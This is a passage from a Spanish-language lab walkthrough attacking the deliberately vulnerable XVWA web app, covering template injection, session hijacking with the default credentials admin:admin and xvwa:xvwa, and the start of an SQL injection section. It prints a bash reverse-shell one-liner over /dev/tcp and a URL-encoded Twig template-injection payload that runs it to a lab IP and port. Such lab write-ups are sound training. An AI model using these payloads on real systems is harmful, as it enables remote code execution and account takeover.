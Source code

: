 Intentemos con una shell reversa en bash
```
bash -c 'exec bash -i &>/dev/tcp/$RHOST/$RPORT <&1'
```
Codificamos el URL, abrimos un netcat y ejecutamos y obtenemos una shell
```
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("bash+-c+'exec+bash+-i+%26>/dev/tcp/192.168.109.128/1234+<%261'")}}
```
![image](https://user-images.githubusercontent.com/50930193/171772173-3948f444-e88b-4712-8ce4-847508c5add6.png)

# Session Flaws 
-------------------------------------------------------------------

Las aplicaciones web requieren una mejor gestión de la sesión para seguir el estado de la aplicación y las actividades de los usuarios. La gestión de sesiones insegura puede dar lugar a ataques como la predicción de sesiones, el secuestro, la fijación y los ataques de reproducción.

Ingresemos desde dos sitios diferentes al enlace del xvwa, ingresemos con dos perfiles diferentes, para ello emplee las credenciales siguientes:
```
admin:admin
xvwa:xvwa
```

Ingreso con xvwa
![image](https://user-images.githubusercontent.com/50930193/171877841-d38d33cb-5555-451c-84b2-90f48e62c582.png)

Ingreso con admin
![image](https://user-images.githubusercontent.com/50930193/171878317-01674c6f-2576-415e-a6e4-cbc51f635446.png)

El robo de sesión puede ser a través de cookies o interceptación con Burpsuite, para ello de la sesión con xvwa haga el cambio el valor que cambia es el del 

![image](https://user-images.githubusercontent.com/50930193/171882963-0bb30c70-09f8-43e6-ae6a-c5ce2d8357a0.png)

Ahora presione **Execute** y observarás que la sesión se ha robado 

![image](https://user-images.githubusercontent.com/50930193/171883526-56108715-93d1-4e21-8393-00a8ac0aabc9.png)

Se evidencia una vulnerabilidad 

# SQL Inyection 
-------------------------------------------------------------------
La inyección de SQL ocurre cuando la aplicación web interactúa con la base de datos y utiliza la entrada proporcionada por el usuario para construir dinámicamente consultas SQL sin suficiente validación. 

Usemos Xtreme Vulnerable Web Application (XVWA) y naveguemos hasta SQL Injection. 

![image](https://user-images.githubusercontent.com/50930193/171903498-2f20bc99-e288-4856-b0c3-8d9d44c7490d.png)
 